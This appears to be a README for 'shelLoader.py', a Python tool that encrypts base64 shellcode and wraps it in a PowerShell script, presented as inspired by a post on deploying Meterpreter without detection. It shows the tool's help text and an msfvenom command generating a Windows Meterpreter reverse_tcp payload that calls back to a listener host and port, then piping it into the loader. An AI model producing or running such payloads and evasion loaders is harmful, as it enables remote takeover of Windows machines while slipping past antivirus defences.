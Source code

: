 A Python script inspired by the [Ghost-Shells](https://mrvar0x.com/2025/01/13/ghost-shells-deploying-meterpreter-without-detection/) from mrvar0x.com, designed to quickly generate PS1 scripts.

```
$ python3 shelLoader.py -h
   _____ _          _ _                     _            
  / ____| |        | | |                   | |          
 | (___ | |__   ___| | |     ___   __ _  __| | ___ _ __  
  \___ \| '_ \ / _ \ | |    / _ \ / _` |/ _` |/ _ \ '__|
  ____) | | | |  __/ | |___| (_) | (_| | (_| |  __/ |    
 |_____/|_| |_|\___|_|______\___/ \__,_|\__,_|\___|_| > By NulLD4y               
          
usage: shelLoader.py [-h] [-f FILE] [-s SHELLCODE] [-o OUTPUT]

Encrypt shellcode and generate PowerShell script

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input file containing base64 shellcode
  -s, --shellcode SHELLCODE
                        Base64 shellcode string
  -o, --output OUTPUT   Output PowerShell script file (default: rev.ps1)

example:

    $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=7414 -f raw | base64 > b64rev
    $ python3 shelLoader.py -f b64rev
```
